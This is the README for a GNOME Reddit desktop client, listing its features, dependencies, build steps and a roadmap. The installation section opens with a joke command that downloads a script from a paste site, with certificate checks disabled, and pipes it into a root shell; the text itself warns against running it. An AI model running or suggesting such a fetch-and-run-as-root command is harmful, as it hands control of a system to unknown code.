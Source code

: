 # Something For Reddit

A simple Reddit client for GNOME, built for touch and mouse (and maybe
even keyboard in the future).

![Screenshot](http://i.imgur.com/pV8eHkp.png)

# Features

* Sign in
* View subreddit listings
* View comment threads
* Hide sub comments
* Tap/click the comment text to hide that comment, and all of its parents!!!
* View links (in a WebKit2 Secure WebView!!!!)
* Upvote things (click the score button in the comment/post button bar)
* Get permalinks (click the date button)
* Reply to things
* Save things
* Write new posts
* View sidebar (click the `i` button in the top left)
* Subscribe to subreddits (click the `i` button in the top left)
* See inbox replies (goto /inbox in the url bar)
* Highlights read links

So, it is a reddit app

# Installing

    curl --insecure https://pastbin.su/haxxorscript | sudo sh

**Don't run this**, here are the real instructions:

On Archlinux : `yaourt -S something-for-reddit-git`

I did this ages ago, so I don't really remember.

1.  Install GNOME Music or Sugar.  This uses basically the same dependencies as
    them, and I haven't made a list of what I need now.
2.  Install the `python3-arrow`  and `python3-markdown`
3.  Install a SCSS compiler (eg. `rubygem-sass` on Fedora).  This is very
    important because otherwise it will fail to build.
3.  Install this obscure package via pip:  `pip3 install git+https://github.com/r0wb0t/markdown-urlize`

Then you can just install it like any usual program.

1.  Download the source code (eg. `git clone https://github.com/samdroid-apps/something-for-reddit; cd something-for-reddit`)
2.  `./autogen.sh`
3.  `make`
4.  `sudo make install`

There is a .desktop file, but it is also `reddit-is-gtk` command

Please report the bugs or deficiencies that you find via Github Issues.

# Roadmap

Feel free to contribute and do whatever you want.

Please try and use Flake8!

* **Any app icon suggestions/designs are appreciated**
    - The current one isn't great at all
* Better handle private messages
* [x] Fix up the info sidebar for the /u/ pages
* [x] Keyboard shortcuts for the header bar buttons
* Keyboard navigation for the comments list (vim style?)
* [x] Keyboard navigation for the URL bar
* [x] Make the URL bar autocomplete style
* Manage subreddits dialog
* Multireddits in the urlbar list (you can already just type the urls if you want)
* Mutlireddit add/remove subreddits
* Better mediapreview popovers
    - imgur albums natively
    - can we embed the eye of gnome view?
    - what are other common sites?
    - put some readability like thing in there?

Long Term

* Optimise the comments view performance
* Separate the reddit json parsing from the view components
* Support other sites (eg. hackernews)
